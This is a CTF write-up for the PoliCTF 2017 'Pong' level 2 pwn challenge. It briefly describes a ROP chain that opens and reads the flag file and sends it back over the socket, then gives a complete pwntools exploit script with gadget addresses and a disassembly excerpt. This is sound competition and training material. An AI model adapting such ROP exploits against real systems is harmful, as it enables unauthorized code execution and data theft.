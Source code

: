 ```yaml
---
layout: post
title:  "PoliCTF 2017 - Pong(lvl2)"
date:   2017-07-09 21:17
categories: CTF
tags: [PoliCTF2017]
categories: [Pwn]
author: jbz
---
```

> Ready for another match? :P

> nc pong.chall.polictf.it 31337 or nc pong2.chall.polictf.it 31337

[Download](https://github.com/jbzteam/CTF/blob/master/PoliCTF2017/Pong/pong2.tgz)

It is basically the same binary as [level1](https://github.com/jbzteam/CTF/blob/master/PoliCTF2017/Pong/pong1.tgz?raw=true), but without the `secret` function. 

This time we did ROP to achieve what the removed function was offering. 

We used ROPgadget to lookup for meaningful gadgets to achieve our intent. We chained gadgets to achieve calls to `open` then `read` (both of them had a PLT entry) and finally we called `sendMessage` to have the flag content printed back to the client socket. 

Since we didn't find a proper gadget in order to prepare the correct `fd` argument for the call to `read` (specifically the one returned by `open`) we tried to guess it. 

We observed that the `fd` number was 9 on our local machine, so we tried that value on the server and it worked like a charm at the first run. 

```

from pwn import *
import sys

def start_game(level, local=None):
    log.info("local: %s" % local)
    if str(local) == str("local"):
        p = remote('localhost', 31337)
    else:
        p = remote('pong.chall.polictf.it', 31337)
    p.sendline(level)
    p.recvuntil("OK ")
    s = p.recvline()
    c_port = int(s.strip())
    return c_port



def play_pong(port, local=None):
    print "connecting to pong UDP server at %d" % port
    if str(local) == str('local'):
        p = remote('localhost', port, typ="udp")
    else:
        p = remote('pong.chall.polictf.it', port, typ="udp")
    return p



def send_to_pong(p, pay, stop=None): 
    p.sendline(pay)
    s = None
    if stop:
        s = p.recv(timeout=5)
    return s



def prepare():
    port = start_game("Lv2", sys.argv[1])
    p = play_pong(port, sys.argv[1])
    return p



def payloadgen():
    # read(open("./flag2", O_RDONLY), buf, 256)
    # sendMessage(buf)
    pop_rdi = p64(0x406938) # pop rdi
    pop_rsi = p64(0x404717) # pod rsi 
    pop_rdx = p64(0x405c65) # pop rdx ; pop ; rsp+8 ; ret
    mov_rdi = p64(0x40df60) # 0x40df60 mov qword ptr [rdi], rdx ; ret
    buf = p64(0x61F560) # buffer (field of zeros)
    RDONLY = p64(0x0)
    
    pay = "1" + "|" + "2" * 22
    pay += pop_rdi
    pay += buf

    pay += pop_rdx
    pay += "./flag\x00\x00"
    pay += pop_rsi #trash
    pay += pop_rsi #trash

    pay += pop_rdx
    pay += "./flag\x00\x00"
    pay += pop_rsi #trash
    pay += pop_rsi #trash

    pay += pop_rdx
    pay += "./flag\x00\x00"
    pay += pop_rsi #trash
    pay += pop_rsi #trash
    
    pay += pop_rdx
    pay += "./flag\x00\x00"
    pay += pop_rsi #trash
    pay += pop_rsi #trash

    pay += mov_rdi
    pay += pop_rsi
    pay += RDONLY

    #0x0000000000416add : pop rax ; pop rbx ; pop rbp ; pop r12 ; ret
    pay += p64(0x0000000000416add)
    pay += p64(elf.plt['open'])
    pay += p64(0x0)
    pay += p64(0x0)
    pay += p64(0x0)

    #0x0000000000402e48 : call rax
    pay += p64(0x0000000000402e48)
    pay += p64(0x0)

    # mov rdi, rax
    pay += pop_rdi
    pay += p64(0x9)
    pay += pop_rsi
    pay += buf
    pay += pop_rdx
    pay += p64(0x100) # len
    pay += p64(0x100)
    pay += p64(0x100)
    pay += p64(elf.plt['read'])
    
    pay += pop_rdi
    pay += buf
    pay += p64(0x404526) # sendMessage
    return pay


elf = ELF('./level2/level2')
p = prepare()
raw_input("stop")
print("Sending reset")

pay = "-1|2"
send_to_pong(p, pay, False)
pay = payloadgen()
for x in range(1):
    log.info("SENDING FATAL PONG")
    send_to_pong(p, pay, False)

for x in range(10):
    print(p.recv())


'''

0x0000000000406938 : pop rdi ; ret

0x0000000000406936 : pop rsi ; pop r15 ; ret

0x0000000000404717 : pop rsi ; ret

0x0000000000405c65 : pop rdx ; pop rcx ; add rsp, 8 ; ret

0x0000000000407546 : push rax ; ret

00000000004036a0 <open@plt>:

0000000000403290 <read@plt>:

.text:0000000000404526 sendMessage     proc near           ; CODE XREF: broadcast+69p

.text:0000000000404526

.text:0000000000404526 mex         = qword ptr -18h

.text:0000000000404526

.text:0000000000404526         push    rbp

.text:0000000000404527         mov     rbp, rsp

.text:000000000040452A         push    rbx

.text:000000000040452B         sub     rsp, 18h

.text:000000000040452F         mov     [rbp+mex], rdi



'''

```
